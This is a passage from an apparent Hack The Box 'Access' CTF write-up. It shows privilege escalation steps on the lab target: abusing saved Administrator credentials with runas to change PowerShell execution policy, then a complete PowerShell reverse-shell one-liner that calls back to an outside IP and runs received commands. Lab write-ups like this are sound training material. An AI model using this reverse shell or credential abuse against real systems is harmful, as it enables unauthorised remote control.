 * I ended up using this script - change  **$socket** variable with your listening IP. (https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4) 

14. On the target/victim machine, in the telnet session. I used  **copy con r.ps1** to create an PowerShell file named r.ps1, pasted the script inside, then CTRL-z,  then Enter to save it and exit.

* My session was interrupted in this session, so I opened another telnet session and repeated the same steps again.

15. To run the script  **powershell -command .\r.ps1**  but, that didn't work. I got an error. Basically, saying Powershell scripts cannot run on the machine.

![alt text](/images/htb-Access/cannot-load-exec-powershell-script.png)

16. I found a way to disable the error via cmd 

```bash
 runas.exe  /savecred  /user:Access\Administrator \
"powershell Set-ExecutionPolicy RemoteSigned"
 ```
 
17. That took care of it, re-running the Powershell command ".\r.ps1" worked.


![alt text](/images/htb-Access/meterpreter-half-establised-powershell.png)


18. The powershell script below also works, paste it in a .ps1 file on target.

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.12.109",413);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,
0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).
GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = 
$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes
($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.
Close()
```
